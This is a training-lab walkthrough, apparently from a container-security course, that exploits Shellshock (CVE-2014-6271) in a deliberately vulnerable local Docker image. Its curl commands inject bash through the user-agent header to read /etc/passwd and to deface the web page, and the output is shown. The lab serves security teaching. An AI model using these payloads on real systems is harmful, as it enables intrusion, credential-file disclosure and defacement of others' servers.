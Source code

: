 ## Vulnerable/Outdated Libraries - Shell-Shock (Bash) 

    

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `Labs/3.0.0-Container-Attacks/3.7.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.7.0
    ```

##### Step 3:

* Run the image vulnerable to shell-shock `docker run -d -it -p 8080:80 vulnerables/cve-2014-6271`

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.7.0# docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
    208ee69b40e260c5605cde5faca67e0428c7fe80a237b5cd5767f9e2e734f03d
    
    ```
    
##### Step 4:

* Open browser and run `http://localhost:8080`

```commandline
image required
```

##### Step 5:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable` to exploit the vulnerability and access the `/etc/passwd` file on the vulnerable container.

```commandline
root@we45:~/Labs/3.0.0-Container-Attacks/3.7.0# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
> http://localhost:8080/cgi-bin/vulnerable

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```


##### Step 6:

* Run `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable` to deface the website.

```commandline
root@we45:~/Labs/3.0.0-Container-Attacks/3.7.0# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable
```

##### Step 7:

* Access http://localhost:8080 on browser to confirm.

```commandline
image required
```


**Note:**  To fix the vulnerability, update bash